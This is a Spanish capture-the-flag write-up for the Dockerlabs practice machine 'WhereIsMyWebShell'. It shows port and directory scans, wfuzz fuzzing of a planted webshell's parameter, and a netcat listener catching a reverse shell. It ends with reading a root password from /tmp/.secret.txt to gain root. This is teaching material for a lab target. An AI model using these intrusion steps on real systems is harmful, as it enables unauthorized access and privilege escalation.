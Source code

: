 ```yaml
---
layout: post
title: WhereIsMyWebShell
subtitle: Plataforma Dockerlabs Dificultad Fácil
cover-img: /assets/img/Whereismywebshell.png
thumbnail-img: /assets/img/Whereismywebshell.png
share-img: /assets/img/Whereismywebshell.png
author: Elmili72
---
```


![image](https://github.com/user-attachments/assets/99f82ba6-45dc-4349-8ff8-72a9191d94a5)

## 1. Escaneo general de puertos

Primero como siempre realizamos un escaneo general de los puertos para ver que puertos están abiertos.

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## 2. Escaneo específico de puertos

Una vez sabemos que puertos estan abiertos tenemos que ver que servicios y en que versión corren en esos puertos. En este caso el puerto 80(HTTP)

```bash
nmap -sCV -p80 172.17.0.2 -oN target
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## 3. Reconocimiento del servicio web

Al entrar en la página aparece un índice que varios elementos sin importancia, exceptuando la parte de abajo de la páginas que nos deja un mensaje interesante.

![image](https://github.com/user-attachments/assets/5a27e707-f2d9-4c49-9d38-c1ee157ff1cb)

## 4. Escaneo de directorios del servicio web

Al no haber más información útil tenemos que pasar al escaneo de directorios de la página en cuestión y nos aparecen dos archivos que nos son de gran ayuda.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,css,txt

/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
```

Nos dice que la web ha sido atacada y que un hacker anterior dejó alojada una webshell alojada. Aunque, no conocemos el parámetro en cuestión podemos realizar *FUZZING* con *WFUZZ* para descubrir que parámetro es el correto para poder utilizarla.

![image](https://github.com/user-attachments/assets/dca111ac-29a4-4837-9841-e327cfd410d6)

```bash
wfuzz -c --hc 404 --hl 0 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://172.17.0.2/shell.php?FUZZ=id
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                       
=====================================================================
000115401:   200        2 L      4 W        66 Ch       "parameter"
```

## 5. Explotación e Intrusión

Una vez tenemos nuestro parámetro para la webshell, toca comprobar que funciona correctamente y vemos que ejecuta comandos sin problemas, por lo que podemos ejecutarnos una revshell para realizar nuestra intrusión.

![image](https://github.com/user-attachments/assets/1acafc69-cb80-4355-b8f8-4fcc599c7374)

![image](https://github.com/user-attachments/assets/ee23fad4-46e6-4e9b-9ba6-876534a2c969)

```bash
c -nlvp 4444                       
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 39546
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@9807d124f667:/var/www/html$ whoami
whoami
www-data
www-data@9807d124f667:/var/www/html$
```

Toca recordar lo que ponía en el servicio web y estar atentos al directorio */tmp*. Vemos un archivo .secret.txt.

```bash
www-data@9807d124f667:/tmp$ ls -la
total 12
drwxrwxrwt 1 root root 4096 May 18 11:56 .
drwxr-xr-x 1 root root 4096 May 18 11:56 ..
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
```

## 6. Escalada de privilegios

Y en esta máquina la escalada es tal que así, leemos el archivo .secret.txt, el cual contiene la contraseña de root e iniciamos sin problemas como root.

```bash
www-data@9807d124f667:/tmp$ cat .secret.txt
contraseñaderoot123
www-data@9807d124f667:/tmp$ su root
Password: 
root@9807d124f667:/tmp# whoami
root
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
